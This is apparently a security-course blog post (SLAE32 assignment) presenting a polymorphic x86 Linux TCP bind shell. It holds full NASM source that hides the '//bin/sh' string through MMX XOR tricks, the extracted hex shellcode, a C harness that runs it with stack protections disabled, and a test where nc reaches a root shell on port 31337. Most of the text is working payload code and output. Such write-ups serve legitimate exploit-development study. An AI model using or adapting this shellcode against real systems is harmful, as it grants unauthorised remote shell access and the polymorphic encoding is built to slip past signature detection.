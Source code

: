 ```yaml
---
title: SLAE32 Assignment 6.1 - Polymorphic MMX Bind Shell
date: 2019-9-5
layout: single
classes: wide
tags:
  - Bind
  - Shell
  - polymorphic
  - MMX
  - Assembly
  - SLAE
  - Linux
  - Shellcode
--- 
```

![](/assets/images/SLAE32.png)
## Overview
For the sixth assignment in the SLAE32 Exam, we needed to create 3 polymorphic shellcodes; from existing shellcodes at shell-storm.org.   
_What is Polymorphic Shellcode?_   
Polymorphic shellcode means that it uses different assembly instructions to deliver the same payload.    
For example, all of the below instructions will result in the same action.

```nasm
mov eax, 0x00000000      ; Clears the EAX Register
xor eax, eax             ; Clears the EAX Register
sub eax, eax             ; Clears the EAX Register
```

The first shellcode I modified was `tcpbindshell (108 bytes)`, created by Russell Willis.  
+ This shellcode can be found at `http://shell-storm.org/shellcode/files/shellcode-847.php`.  

Our assignment required that our polymorphic version of the shellcode to not exceed 150% of the original value.   
+ The original shellcode length is `108 bytes`. 
+ The final length of this polymorphic shellcode is `144 bytes`.    

## Polymorphic Shellcode
+ The code I added/modified is indented with one space.

```nasm
global _start
_start:
 xor	ecx,ecx   ; Makes the ECX Register 0
 mul	ecx       ; ECX*EAX. Result is stored in EDX:EAX. 
                  ;  This clears the EDX and EAX.
 mov ebx, eax     ; sets the EBX register to 0
 push byte 0x66
 pop edi          ; save this for the other functions
 mov eax, edi	  ; eax is now 0x66 which is the socketcall SYScal
 inc ebx          ; EBX = 1; needed to create the socket()
 push edx
push   0x6
 push ebx         ; push 0x1 to the stack 
push   0x2
mov    ecx,esp
int    0x80       ; System Call
 xchg esi,eax     ; Save the output of the syscal to the ESI register
 mov eax, edi     ; EAX = 0x66 used for socketcall SYSCAL
 inc ebx          ; EBX = 0x2
push   edx
push word 0x697a  ; port TCP 
push   bx
mov    ecx,esp
push   0x10
push   ecx
push   esi
mov    ecx,esp
int    0x80       ; System Call
 mov eax, edi     ; EAX = 0x66 used for socketcall SYSCAL
 inc ebx
 inc ebx          ; EBX = 0x4
push   0x1
push   esi
mov    ecx,esp
int    0x80       ; System Call
 mov eax, edi     ; EAX = 0x66 used for socketcall SYSCAL
 inc ebx
push   edx
push   edx
push   esi
mov    ecx,esp
int    0x80       ; System Call
; setup dup2 loop
mov    ebx,eax
xor    ecx,ecx
mov    cl,0x3
; dup2
dup2Loop:
	dec ecx
mov    al,0x3f
int    0x80       ; System Call
jne    dup2Loop
push   edx
 mov edx, 0xffffffff     ; used to XOR the MM0 Register to result in "//bin/sh"
 mov eax, 0x978cd091     ; "n/sh" XOR'd with 0xffffffff
 movd mm0, eax
 psllq mm0, 32           ; shift the mm0 register left by 4 bytes
 mov ebx, 0x969dd0d0     ; "//bi" XOR'd with 0xffffffff
 movd mm1, ebx
 paddb mm0, mm1          ; now mm0 hold the 8 byte XOR'd "//bin/sh"
 movd mm1, edx           ; mm1 is now 0xffffffff
 psllq mm1, 32           ; mm1 is now 0xffffffff00000000
 movd mm2, edx           ; mm2 us biw 0xffffffff
 paddb mm1, mm2          ; mm1 is now 0xffffffffffffffff
 pxor mm0, mm1           ; XOR's mm0 with mm1 and saves the results in mm0
 sub esp, 8              ; Decrement the stack 8 bytes
 movq qword [esp], mm0   ; push "//bin/sh" from mm0 to the top of the stack
xor    eax,eax
mov    ebx,esp
push   eax
push   ebx
mov    ecx,esp
push   eax
mov    edx,esp
mov    al,0xb
int    0x80       ; System Call
```  

+ To push the filename string `//bin/sh` onto the stack, I used the MMX registers.   

### Compiling the Shellcode

```console
root# nasm -f elf32 mmxTcpBindShell.nasm -o mmxTcpBindShell.o
root# ld mmxTcpBindShell.o -o mmxTcpBindShell
```

### Getting the Hex of the Shellcode

```console
root# objdump -d tcpBindShell  | grep '[0-9a-f]:' | grep -v 'file' | \
cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | \
sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
"\x31\xc9\xf7\xe1\x89\xc3\x6a\x66\x5f\x89\xf8\x43\x52\x6a\x06\x53\x6a\x02"
"\x89\xe1\xcd\x80\x96\x89\xf8\x43\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a"
"\x10\x51\x56\x89\xe1\xcd\x80\x89\xf8\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80"
"\x89\xf8\x43\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x03\x49\xb0"
"\x3f\xcd\x80\x75\xf9\x52\xba\xff\xff\xff\xff\xb8\x91\xd0\x8c\x97\x0f\x6e"
"\xc0\x0f\x73\xf0\x20\xbb\xd0\xd0\x9d\x96\x0f\x6e\xcb\x0f\xfc\xc1\x0f\x6e"
"\xca\x0f\x73\xf1\x20\x0f\x6e\xd2\x0f\xfc\xca\x0f\xef\xc1\x83\xec\x08\x0f"
"\x7f\x04\x24\x31\xc0\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80"
``` 

### Injecting the Shellcode in a Host Program
+ I loaded it into our shellcode testing program to ensure it still worked when injected into a host program.  

```c
// Filename: shellcode.c
// Author:   boku
#include<stdio.h>
#include<string.h>
unsigned char code[] = \
"\x31\xc9\xf7\xe1\x89\xc3\x6a\x66\x5f\x89\xf8\x43\x52\x6a\x06\x53\x6a\x02"
"\x89\xe1\xcd\x80\x96\x89\xf8\x43\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a"
"\x10\x51\x56\x89\xe1\xcd\x80\x89\xf8\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80"
"\x89\xf8\x43\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x03\x49\xb0"
"\x3f\xcd\x80\x75\xf9\x52\xba\xff\xff\xff\xff\xb8\x91\xd0\x8c\x97\x0f\x6e"
"\xc0\x0f\x73\xf0\x20\xbb\xd0\xd0\x9d\x96\x0f\x6e\xcb\x0f\xfc\xc1\x0f\x6e"
"\xca\x0f\x73\xf1\x20\x0f\x6e\xd2\x0f\xfc\xca\x0f\xef\xc1\x83\xec\x08\x0f"
"\x7f\x04\x24\x31\xc0\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80";
main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
+ I then compiled the C program.  

#### Compiling the Host Program
```console
gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
```
+ we use the feature `no-stack-protector` to disable canary stack protections that are automattically added when using the gcc compiler.
+ The option `execstack` disables the Data Execution Protection (DEP) mechanism automatically added when compiling with gcc. 
  - This makes the stack non-executable.
  - The stack would be only read and write if we didn't disable this.

### Testing the Polymorphic Shellcode
#### Window 1
```console
root# ./shellcode
Shellcode Length:  144
```

#### Window 2
```console
root# netstat -tnalp | grep shellcode
tcp        0      0 0.0.0.0:31337           0.0.0.0:*               LISTEN      19649/shellcode
root# nc 127.0.0.1 31337
whoami
root
```
+ Awesome! Our version of the shellcode works as intended.
+ Having no `root#` or `user$` is typical of bind shells.

## SLAE32 Blog Proof
```console
This blog post has been created for completing the requirements
 of the SecurityTube Linux Assembly Expert certification:
http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
	- Now at: https://www.pentesteracademy.com/course?id=3
SLAE/Student ID: PA-10913
```

